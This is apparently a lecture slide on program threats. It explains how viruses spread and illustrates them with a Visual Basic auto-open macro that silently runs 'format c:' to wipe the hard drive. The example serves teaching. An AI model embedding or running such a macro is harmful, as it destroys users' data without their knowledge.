

# Program Threats (Cont.)
Viruses
Code fragment embedded in legitimate program
Self-replicating, designed to infect other computers
Very specific to CPU architecture, operating system, applications
Usually borne via email or as a macro
Visual Basic Macro to reformat hard drive
Sub AutoOpen()
Dim oFS
	Set oFS = CreateObject(’’Scripting.FileSystemObject’’)
	vs = Shell(’’c:command.com /k format c:’’,vbHide)
End Sub